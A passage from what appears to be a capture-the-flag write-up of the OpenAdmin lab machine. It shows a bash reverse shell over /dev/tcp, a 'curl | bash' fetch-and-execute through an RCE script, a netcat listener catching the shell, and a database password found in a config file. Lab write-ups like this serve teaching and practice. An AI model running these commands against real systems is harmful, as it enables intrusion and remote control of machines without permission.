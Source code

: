 In order to evade bad characters and other issues, I am going to host the reverse shell with a python webserver and use the RCE to access and execute my payload.

```console
root@silence:~# cat s.sh
#!/bin/bash
bash -c 'bash -i >& /dev/tcp/10.10.14.7/443 0>&1'
```
This simple bash reverse-shell should do the trick.

```console
root@silence:~# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
With the webserver up and running we now just need to access and execute the reverse-shell using the exploit.

```console
root@silence:~# ./rce.sh
$ which curl
/usr/bin/curl
$ curl 10.10.14.7/s.sh | bash
```
With curl being installed, we can simply access the shell and directly pipe it into bash to execute the reverse-shell.

`10.10.10.171 - - [02/May/2020 14:36:59] "GET /s.sh HTTP/1.1" 200 -`

The reverse-shell is being accessed from the python webserver.

```console
root@silence:~# nc -lvnp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.171.
Ncat: Connection from 10.10.10.171:39448.
bash: cannot set terminal process group (1049): Inappropriate ioctl for device
bash: no job control in this shell
www-data@openadmin:/opt/ona/www$
```
We got the shell returned! Next up let's enumerate the system.

# Privesc
## Enumeration as www-data
After a bit of searching around, an interesting config file can be found at /opt/ona/www/local/config/database_settings.inc.php :
```php
<?php

$ona_contexts=array (
  'DEFAULT' =>
  array (
    'databases' =>
    array (
      0 =>
      array (
        'db_type' => 'mysqli',
        'db_host' => 'localhost',
        'db_login' => 'ona_sys',
        'db_passwd' => 'n1nj4W4rri0R!',
        'db_database' => 'ona_default',
        'db_debug' => false,
      ),
    ),
    'description' => 'Default data context',
```